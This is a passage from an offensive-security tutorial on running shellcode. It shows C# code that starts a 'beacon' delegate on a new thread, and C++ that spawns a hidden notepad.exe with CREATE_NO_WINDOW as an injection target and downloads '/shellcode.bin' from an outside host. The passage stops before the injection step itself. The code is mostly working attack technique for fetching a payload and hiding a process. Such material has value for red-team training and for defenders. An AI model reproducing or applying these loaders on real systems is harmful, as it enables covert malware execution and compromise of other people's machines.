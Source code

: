 ```
```

## CreateThread CSharp

C# has a managed abstraction over threads which allows you to create new threads using `new Thread()` To give a thread work, pass a `ThreadStart` or `ParameterizedThreadStart` delegate into its constructor. A ThreadStart delegate is one that returns void and has no input parameters, aka: `delegate void ThreadStart()` which matches our beacon delegate perfectly.

```
var beacon = Marshal.GetDelegateForFunctionPointer<Beacon>((IntPtr)ptr);

var thread = new Thread(new ThreadStart(beacon));
thread.Start();

Console.WriteLine("Shellcode is running, press key to exit");
Console.ReadKey();
```

## CreateRemoteThread

The CreateRemoteThread API behaves the same way as CreateThread but allows you to start a thread in a process other than your own. Use this to inject shellcode into a different process and requires the use of more Windows APIs to perform. Rather than injecting into existing processes, we're going to re-use our CreateProcessW code to spawn our own. 

This code is very similar to the above examples, but it includes the dwFlags on the STARTUPINFO struct and the CREATE_NO_WINDOW flag on CreateProcess. These allow the process to spawn without a visible window. 

```
//create startup info struct
LPSTARTUPINFOW startup_info = new STARTUPINFOW();
startup_info->cb = sizeof(STARTUPINFOW);
startup_info->dwFlags = STARTF_USESHOWWINDOW;

//create process info struct
PPROCESS_INFORMATION process_info = new PROCESS_INFORMATION();

//null terminated command line
wchar_t cmd[] = L"notepad.exe\0";

//create process
CreateProcess(
NULL,
cmd,
NULL,
NULL,
FALSE,
CREATE_NO_WINDOW,
NULL,
NULL,
startup_info,
process_info);

//download shellcode
std::vector<BYTE> shellcode = Download(L"www.infinity-bank.com\0", L"/shellcode.bin\0");
```
